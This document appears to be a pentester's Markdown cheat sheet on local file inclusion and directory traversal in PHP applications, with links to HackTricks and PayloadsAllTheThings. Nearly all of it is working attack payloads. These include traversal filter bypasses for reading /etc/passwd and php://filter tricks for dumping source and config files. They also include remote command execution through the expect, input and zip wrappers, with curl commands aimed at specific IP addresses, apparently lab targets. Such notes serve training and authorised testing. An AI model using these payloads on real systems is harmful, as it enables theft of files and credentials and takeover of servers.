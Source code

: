 # File Inclusion / Directory Traversal

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

## LFI

```
 /etc/passwd on Linux or C:\Windows\boot.ini on Windows
 #if input from parameters used as part of filenames
 we can bypass by adding /../ in the
  
 # if Blacklisting is not coded correctly
 ..././ and ....// would become ../ vice vers sa
 cat .?/.*/.?/etc/passwd.
 Bash allows for for the ? and * wildcards to be used as wildcard
 
 #On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. 
 The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
```

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found [here](https://www.php.net/manual/en/wrappers.php.php). The `php://` wrapper is enabled by default and interacts with IO streams.

PHP filter to convert file contents to Base64

```
 php://filter/read=convert.base64-encode/resource=/etc/passwd
 #we can get the source code and decode it
 curl http://134.209.184.216:32391/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```



### PHP filter to convert file contents to ROT13

```
php://filter/read=string.rot13/resource=/etc/passwd
```

### Command execution with PHP `Expect` wrapper

```
expect://id
```

#### Using PHP `Input` wrapper for command execution

```
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
```

### Command execution with the PHP `Zip` wrapper

```
zip://malicious.zip%23exec.php&cmd=id
```
